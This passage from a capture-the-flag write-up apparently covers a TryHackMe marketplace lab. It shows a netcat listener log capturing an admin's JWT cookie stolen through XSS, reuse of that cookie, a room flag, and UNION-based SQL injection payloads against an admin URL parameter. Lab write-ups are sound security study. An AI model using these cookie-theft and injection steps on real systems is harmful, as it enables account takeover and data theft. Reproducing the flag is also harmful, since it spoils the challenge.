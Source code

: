 its obviously a malicious listing...stealng people's cookies

(make sure to keep the listener alive)

We wait a bit and get admin's cookie

Note that I think it was unrealistically fast for a Reflected Xss (you usually wait for people to click on your malicious link wich may takes long)

This is probably running automatically with a cron-like job

```
└──╼ $nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 39020
GET /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NDI4NTIyNDV9.r1mGSf6yZVq33YPYEC3_xGPVkYxTPitiPr6ctYjKAn0 HTTP/1.1
Host: 10.8.226.203:8080
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://localhost:3000/item/3
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

Now replace your poor-people's cookie with extra-privileges flavored admin's cookie

You can just use the inspector/storage to change token's value

First flag is Right on administration panel

`THM{what_are_you_buying}`

You can also see there are 2 admins, `jake` and `michael`

I clicked on michael and noticed the url was like

`http://10.10.228.67/admin?user=2`

And I made it go like

`http://10.10.228.67/admin?user=2'`

Then It start acting 

```
Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1
```

And I was like "chill bro its a simple colon" And went 

`http://10.10.228.67/admin?user=0 union select 1,2,3,4`

It then calmed down and gave me `user 1` So I said

`http://10.10.228.67/admin?user=0 union select version(),2,3,4`
